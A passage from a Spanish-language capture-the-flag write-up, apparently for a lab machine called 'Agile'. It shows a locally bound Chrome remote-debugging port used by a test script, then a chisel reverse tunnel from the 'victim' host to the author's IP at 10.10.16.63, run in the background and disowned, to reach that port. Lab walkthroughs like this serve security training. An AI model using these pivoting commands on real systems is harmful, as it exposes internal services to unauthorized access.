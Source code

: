 ```null
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Protocol $scheme;
    }
}
```

Dentro de ```/app/app-testing/tests/functional``` se encuentra un script en python que en el panel de ayuda, se muestra un puerto destinado a debbugging

```null
options.add_argument("--remote-debugging-port=41829")
```

Está abierto internamente

```null
corum@agile:/app/app-testing/tests/functional$ ss -nltp | grep 41829
LISTEN 0      10         127.0.0.1:41829      0.0.0.0:*  
```

Varios procesos lo están utilizando

```null
corum@agile:/app/app-testing/tests/functional$ ps -faux | grep 41829
runner      2281  0.1  2.5 34015196 103524 ?     Sl   10:30   0:00                      \_ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.gp7EMf --window-size=1420,1080 data:,
runner      2344  0.3  3.9 1184764352 159100 ?   Sl   10:30   0:01                          |       \_ /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=2288 --lang=en-US --enable-automation --enable-logging --log-level=0 --remote-debugging-port=41829 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --enable-blink-features=ShadowDOMV0 --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1691834131102527 --launch-time-ticks=2071689208 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=0,i,16535539327393366571,794766477956318211,131072 --disable-features=PaintHolding
corum       2440  0.0  0.0   4020  2180 pts/0    S+   10:35   0:00      |                               \_ grep --color=auto 41829
```

Utilizo chisel para aplicar ```Remote Port Forwarding```. Desde mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
```

En la máquina víctima me conecto como cliente

```null
corum@agile:/tmp$ ./chisel client 10.10.16.63:1234 R:41829:127.0.0.1:41829 &>/dev/null & disown
```

Desde ```Chromium```, añado este nuevo debbugger, introduciendo como url la ruta ```chrome://inspect```
